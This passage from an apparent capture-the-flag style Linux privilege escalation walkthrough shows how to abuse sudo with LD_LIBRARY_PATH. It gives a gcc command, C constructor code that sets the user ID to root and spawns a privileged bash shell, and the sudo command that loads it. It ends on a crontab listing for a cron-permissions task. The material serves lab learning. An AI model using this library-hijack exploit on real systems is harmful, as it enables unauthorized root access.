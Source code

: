 Create a shared object using the exploit code with same name as one of the libraries mentioned above, to exploit using path variable `LD_LIBRARY_PATH`.
{% capture code %}{% raw %}gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c{% endraw %}{% endcapture %} {% include code.html code=code %}

The exploit code is similar to below.
{% capture code %}{% raw %}#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}{% endraw %}{% endcapture %} {% include code.html code=code %}

Run `apache2` to use the created library file, using `sudo LD_LIBRARY_PATH=/tmp apache2` to spawn a `privileged shell`.


## Task 8 - Cron Jobs - File Permissions

Check the current `crontab` entries.
{% capture code %}{% raw %}# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab`
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh{% endraw %}{% endcapture %} {% include code.html code=code %}
